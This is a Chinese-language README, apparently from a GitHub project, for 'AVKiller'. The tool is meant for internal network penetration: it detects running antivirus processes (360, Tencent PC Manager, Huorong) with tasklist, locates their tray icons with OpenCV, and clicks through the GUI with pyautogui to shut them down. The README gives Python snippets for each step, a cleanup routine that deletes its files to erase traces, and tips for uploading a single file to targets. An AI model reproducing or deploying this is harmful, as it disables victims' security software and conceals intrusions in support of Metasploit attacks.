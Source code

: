 # AVKiller
## 利用图形化识别技术快速关闭目标机器上的杀毒软件

写该脚本的原因是4月份在进行内网渗透的时候，对MSF木马做了免杀处理，做完免杀的木马可以完美绕过杀毒软件的检测，但是msf木马在执行下一步操作的时候，往往会向目标计算机继续写入exe文件或执行powershell代码，这样的操作几乎都会引发杀毒软件的告警，让渗透的过程被对方察觉，而且MSF生成的后渗透可执行文件已经被所有杀毒软件厂商提取特征码，免杀效率几乎为0。所以才有了为何不直接关闭目标的杀毒软件后再进行后渗透操作的想法。


## 功能实现

### 1.识别杀软

为了实现自动识别杀毒软件的功能，首先要知道系统运行了哪些杀毒软件，CMD命令tasklist可以列出系统正在运行的进程，将其与已知的杀毒软件进行进行匹配即可，如果进程中有与av_process里的进程名，说明该电脑正在运行XX杀毒软件。这里需要做个判断，如果不存在杀毒软件的话，则退出该程序。

	#检测杀毒软件函数，返回杀毒软件名称
	av_process = {'hr': 'HipsTray.exe', 'txgj': 'QQPCTray.exe', '360': '360sd.exe'}
	def runningAVs():
		tasklist = popen('tasklist').read().split()  #运行系统命令tasklist
		for av_exe in av_process.values():
			if av_exe in tasklist:
				usingAV = [k for k, v in av_process.items() if v == av_exe][0]
				return usingAV # 返回目标主机使用的杀毒软件名称


判断目标主机使用的杀毒软件后，由于使用的是图像识别，所以需要将对应的图标和"确认""退出"的字样写入

	# 杀毒软件logo，以及其他字符图片的写入。若不存在杀毒软件，程序退出
	try:
		AV = runningAVs()
		print(AV)
		# 将对应的logo写入
		logo_b64 = b64_AV_logo[AV]
		logo_img = base64.b64decode(logo_b64)
		with open(logoImage, 'wb') as f:
			f.write(logo_img)
			
		# 输出通用的‘退出’字符串图片
		with open(logoutImage, 'wb') as f:
			f.write(base64.b64decode(b64_logout))
			
		# 通过杀毒软件判断最后一步退出步骤应该使用的字样
		#（360与腾讯管家的最后一步“确认”字样底色颜色不一样）
		if AV == r'hr':
			return b64_logout
		elif AV == r'360':
			return b64_blue_comfirm
		else:
			return b64_white_comfirm
	#没检测到杀毒软件，程序退出
	except :
		print('主人，这家伙没开杀毒软件！！！！干他๑乛◡乛๑ ')
		exit()


### 2.坐标获取

知道目标主机运行的程序后就需要准备关闭它了，这时候使用opencv的图像识别技术，找到目标（杀毒软件）logo在屏幕的位置，以坐标形式进行返回，用于对鼠标的定位。

	# 使用opencv获取图标的坐标（logo，退出，确认等字样）
	def get_position(imgSource, imgTarget):
		source = cv2.imread(imgSource, 0)  # 0-灰度处理，防止颜色不同对定位产生影响
		target = cv2.imread(imgTarget, 0)
		wight, height = target.shape[::-1]  # 获取图片长和宽，方便确定文字的中新坐标
		res = cv2.matchTemplate(source, target, cv2.TM_CCOEFF_NORMED)
		min_val, max_val, min_loc, max_loc = cv2.minMaxLoc(res)
		pos_x = int(max_loc[0] + wight / 2)
		pos_y = int(max_loc[1] + height / 2)
		# print(pos_x, pos_y)
		return pos_x, pos_y


### 3.鼠标操作

这是pyautogui库的功能，此程序用到的只是rightClick，Click功能，主要是利用opencv获取到的坐标，让鼠标进行移动到对应的位置，然后进行右击和点击操作。

### 4.清理痕迹

活干完了，总不能抢前走人吧，至少得擦掉一些痕迹吧！由于需要多次通过图片对比来找到坐标，所以会在目标电脑里保存6张图片，所以当杀毒软件退出后，我们需要将其删除。CMD的del命令可以删除文件（不是移动到回收站，而是直接删除）

	def clean():
	popen(r'del /q {} {} {} {} {} {}'.format(logoutImage, logoImage, comfireImage,screen_before,screen_logout,screen_comfire))


### 5.Tips

#### a)	关于sleep：为什么需要sleep？
Pyautogui进行截屏操作的时候需要时间（100ms左右，电脑性能会导致时间长短不同），sleep时长跟电脑性能有关，如果目标主机性能足够好的话，可以适当减小sleep时长。

#### b)	关于图片存放位置：为什么不直接在当前目录下？
在当前目录下由于图片中有类似‘退出’、‘确认’字样，会被opencv识别，导致定位不准，所以必须保存在其他目录下

#### c)	关于打开右下角隐藏起的图标
Win+B，再按一下空格键或者回车键

#### d)	关于图片保存
先将图片转为base64，需要用的时候再将其解码回来即可。而且重要的是，当进行渗透的时候，只需要上传一个文件！减少上传的文件数量！

#### e)关于图标与桌面的打开软件的图标是否冲突
这个不会，因为opencv识别时的SourceImage和TargetImage大小差别太大不能识别

### 6. 图片展示
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/360.gif "关闭360")
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/txgj.gif "关闭腾讯管家")
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/hr.gif "关闭火绒")
